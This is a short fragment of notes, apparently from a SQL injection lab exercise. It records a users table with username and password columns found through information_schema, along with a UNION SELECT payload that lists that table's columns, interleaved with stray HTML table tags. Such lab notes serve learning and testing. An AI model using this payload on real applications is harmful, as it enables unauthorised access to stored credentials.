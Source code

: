 users_eptxdz

username_srggqj</th>
                        </tr>
                        <tr>
                            <th>password_vayfdd</th>

information_schema
	tables
		table_name  : users_eptxdz
			columns
				column_name:   username_srggqj
				column_name:   password_vayfdd 
				`' UNION SELECT column_name, NULL FROM information_schema.columns where table_nam
				e='users_eptxdz'--` .
